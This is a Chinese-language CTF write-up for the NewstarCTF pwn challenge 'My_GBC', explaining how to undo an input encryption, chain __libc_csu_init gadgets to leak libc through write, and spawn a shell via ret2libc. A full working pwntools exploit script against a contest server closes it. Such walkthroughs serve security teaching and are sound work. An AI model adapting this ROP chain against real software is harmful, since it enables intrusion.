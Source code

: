 ```yaml
---
title: ret2csu
date: '2025-03-13 16:54:45'
updated: '2025-05-11 14:06:35'
---
```

## NewstarCTF My_GBC!!!!!
![](/images/d884f7b65265ebe333d3de0b69adaf8d.png)

从IDA可以看出，`read`函数读取的字节数很多可以栈溢出，但是有个`encrypt`函数把`buf`里面的数据加密了再存回原位  
这就导致原来的栈溢出payload无法实现该有功能，接着看`encrypt`函数内部，发现是对数据进行了左循环和异或的操作，可逆  
所以可以将要执行的payload先手进行右循环和异或之后传入：![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20241017144318075.png)

```python
def ror(value,rotation,bits=8):
    rotation=rotation % bits
    return ((value >> rotation)|(value << (bits - rotation))) & ((1 << bits)-1)

def decrypt(value):
    res=ror(value,3)
    res=res^0x5A
    return long_to_bytes(res)

payload1_enc=b''
for i in range(len(payload1)):
    payload1_enc+=decrypt(payload1[i])
```

而且IDA里面还发现整个程序用的都是`write`函数，  
我们只能够利用`write`函数来泄露别的函数地址从而获得libc基址，实现ret2libc  
由于`write`函数有三个参数，  
所以我们需要利用gadget控制`rdi`、`rsi`、`rdx`三个寄存器的值，  
而通过`ROPgadget`指令可以发现程序当中并没有直接的`pop rdx`、`pop rsi`和`pop rdi`的指令：

（在IDA里面查看图中的`pop rdi`指令的地址可以发现其实是将`pop r15`的指令拆开了）

### 重点
不过在函数列表发现了`libc_csu_init`函数，汇编如下：

![](C:\Users\garhi\Pictures\微信截图_20241017143535.png)![](/images/70e2b7135112182072cbcae3e53c7cc4.png)

可以通过利用`csu1`部分和`csu2`部分来修改我们所需要的寄存器的内容从而达到`pop 对应寄存器`的效果：

！！！payload1讲解：

1、栈溢出返回至`csu1`部分的`pop rbx`指令，把0赋予`rbx`为了让后来call语句当中地址不受`rbx`影响

2、接着把1赋予`rbp`，后来rbx加1后与rbp相同从而不执行`jnz`语句

3、接着把1赋予`r12`，后来`r12`的值传给了`rdi`，`write`函数的第一个参数是文件描述符fd，1是标准输出即命令行输出

4、接着把从二进制文件当中获得的`read`函数的got表地址赋予r13，后来r13的值又传给了`rsi`，`write`函数的第二个参数是写入标准输出的数据来源缓冲区，有一个向地址内取值的操作，所以是got表而不是plt表

5、接着把8赋予`r14`，后来`r14`的值传给了`rdx`，`write`函数的第三个参数是读取字节数，8个字节够了

6、接着把从二进制文件中获得的`write`函数的got表地址赋予`r15`，也就是后来`call`语句后面的`[r15+rbx*8]`

（汇编语句当中"[ ]"表示地址，向地址内取值，所以这里填的`write`的got表）

7、跳到`csu2`部分的汇编指令继续执行

8、分别把`r14`、`r13`、`r12`的值传给了对应的寄存器，然后`call write`函数把`read`函数的真实地址输出了

9、由于没有`retn`语句，程序会接着往下执行到`csu1`部分的代码，但是我们这时需要返回到`main`函数当中，所以输入一些垃圾数据让接下来的几个`pop`指令pop掉，最后再接上`main`函数的返回地址，假装一切从未发生过（

这里有一个重点：有6个寄存器要pop掉，但是实际上payload里面塞了0x38(7*8)个'a'，这是因为在`pop`语句之前还有一个`add rsp,8`的语句将栈顶下移了八个字节，payload的0x38个'a'的前面8个是被跳过了没有被pop掉的

剩下的ret2libc步骤就跳过了，附上exp：（注意栈平衡）

```python
from pwn import *
from Crypto.Util.number import *

context.log_level='debug'

link=remote("8.147.129.74",34860)
# link=process("./mygbc") 
e=ELF("./mygbc")
libc=ELF("./libc.so.6")

csu1=0x4013AA
csu2=0x401390
pop_rdi=0x4013b3
ret=0x40101a

def ror(value,rotation,bits=8):
    rotation=rotation % bits
    return ((value >> rotation)|(value << (bits - rotation))) & ((1 << bits)-1)

def decrypt(value):
    res=ror(value,3)
    res=res^0x5A
    return long_to_bytes(res)

payload1=b'a'*0x18
payload1+=p64(csu1) #跳转到csu1部分
payload1+=p64(0)
payload1+=p64(1)
payload1+=p64(1)
payload1+=p64(e.got["read"])
payload1+=p64(8)
payload1+=p64(e.got["write"])
payload1+=p64(csu2)
payload1+=b'a'*0x38
payload1+=p64(e.sym["main"])

payload1_enc=b''
for i in range(len(payload1)):
    payload1_enc+=decrypt(payload1[i])

link.recvuntil("thing: ")
link.send(payload1_enc)

read_addr=u64(link.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

libc_base=read_addr-libc.sym["read"]
system=libc_base+libc.sym["system"]
binsh=libc_base+next(libc.search(b'/bin/sh'))

payload2=b'a'*0x18
payload2+=p64(ret)
payload2+=p64(pop_rdi)
payload2+=p64(binsh)
payload2+=p64(system)

payload2_enc=b''
for i in range(len(payload2)):
    payload2_enc+=decrypt(payload2[i])

link.send(payload2_enc)
link.interactive()
```

